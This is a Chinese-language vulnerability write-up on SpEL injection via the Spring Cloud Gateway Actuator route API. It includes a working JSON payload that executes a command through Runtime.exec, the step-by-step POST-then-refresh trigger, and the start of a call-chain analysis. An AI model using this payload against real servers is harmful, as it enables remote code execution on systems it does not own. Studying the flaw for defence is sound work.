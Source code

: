 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230328164518702.png)

Actuator API提供了Rest添加路由的方式:

> 要创建一个路由，请向/gateway/routes/{id_route_to_create}发出一个POST请求，该请求包含一个指定路由字段的JSON主体（见检索某个特定路由的信息）。要删除一个路由，请向/gateway/routes/{id_route_to_delete}发出一个DELETE请求。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230328163753075.png)

`http://xxx/actuator/gateway/routes/{xxx}`添加路由

也就是可以向`http://xxx/actuator/gateway/routes/godown`如下payload进行注入

```json
{
  "id": "godown",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"#{T(java.lang.Runtime).getRuntime().exec('calc')}"}
  }],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

创建完之后向`http://xxx/actuator/gateway/refresh`发送请求即可刷新

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230328165326591.png)





其实添加的这部分路由对应着配置文件中的route部分：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230328165708684.png)



注意在创建路由的时候把content-type改为application/json

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230403194802519.png)



## 拓展链

上文payload里的其他参数有没有用？name为什么要是Path？

借用奇安信的一张调用栈图：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230328184956808.png)

在RouteDefinitionRouteLocator#convertToRoute()方法处

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230328185532235.png)
